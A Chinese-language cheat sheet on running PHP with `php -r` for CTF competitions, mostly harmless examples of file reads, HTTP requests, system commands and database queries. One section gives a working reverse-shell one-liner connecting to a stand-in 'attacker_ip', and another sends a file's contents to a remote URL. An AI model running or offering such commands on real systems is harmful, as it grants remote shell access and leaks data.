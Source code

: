 PHP的`-r`选项允许你在命令行中直接运行PHP代码，而无需创建一个PHP文件。这在CTF比赛中非常有用，尤其是在你需要快速执行一些PHP代码时。下面是一些使用`php -r`选项执行命令的示例，包括文件操作、网络请求、系统命令等。

### 基本用法
你可以在命令行中使用如下格式执行PHP代码：
```sh
php -r 'echo "Hello, World!\n";'
```

### 示例：读取文件内容
```sh
php -r '$content = file_get_contents("/path/to/file"); echo $content;'
```

### 示例：发送HTTP请求
使用PHP的`file_get_contents`函数发送简单的GET请求：
```sh
php -r '$response = file_get_contents("http://example.com"); echo $response;'
```

使用`curl`扩展发送HTTP请求（确保`curl`扩展已安装）：
```sh
php -r '$ch = curl_init("http://example.com"); curl_setopt($ch, CURLOPT_RETURNTRANSFER, true); $response = curl_exec($ch); curl_close($ch); echo $response;'
```

### 示例：执行系统命令
执行系统命令并输出结果：
```sh
php -r 'system("ls -l");'
```

使用`exec`函数执行系统命令：
```sh
php -r '$output = []; exec("ls -l", $output); foreach ($output as $line) { echo $line . "\n"; }'
```

### 示例：连接数据库并执行查询

#### MySQL数据库
确保安装了`mysqli`扩展。

```sh
php -r '$mysqli = new mysqli("localhost", "username", "password", "database"); if ($mysqli->connect_error) { die("Connection failed: " . $mysqli->connect_error); } $result = $mysqli->query("SELECT * FROM table_name"); while ($row = $result->fetch_assoc()) { print_r($row); } $mysqli->close();'
```

### 示例：PHP反弹Shell

#### 反弹Shell（用于演示目的，请勿用于非法用途）
反弹Shell到攻击者机器：
```sh
php -r '$sock=fsockopen("attacker_ip",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### 示例：执行PHP脚本
你还可以使用`-r`选项执行更复杂的PHP脚本，通过引入多个PHP函数和逻辑：

#### 示例：简单的HTTP服务器
```sh
php -r '$sock=socket_create(AF_INET, SOCK_STREAM, SOL_TCP); socket_bind($sock, "0.0.0.0", 8080); socket_listen($sock); while($conn=socket_accept($sock)){ socket_write($conn, "HTTP/1.1 200 OK\r\nContent-Length: 11\r\n\r\nHello World"); socket_close($conn); }'
```

#### 示例：简单的计算
```sh
php -r '$a = 5; $b = 10; echo "Sum: " . ($a + $b) . "\n";'
```

### 综合示例
以下是一个更综合的示例，演示如何读取文件内容、发送HTTP请求并将结果写入文件：

```sh
php -r '$content = file_get_contents("/path/to/input_file"); $response = file_get_contents("http://example.com?data=" . urlencode($content)); file_put_contents("/path/to/output_file", $response);'
```

### 安全提示
在执行命令和脚本时，请注意以下几点：

1. **避免直接执行不受信任的输入**：防止命令注入和其他安全漏洞。
2. **使用参数化查询**：在处理数据库查询时，避免SQL注入。
3. **确保执行环境的安全**：避免在生产环境中使用具有高风险的脚本和命令。

这些示例展示了如何使用PHP的`-r`选项执行各种任务，包括文件操作、网络请求和系统命令等。在CTF比赛中，这些技巧可以帮助你快速编写和运行PHP代码，解决各种挑战。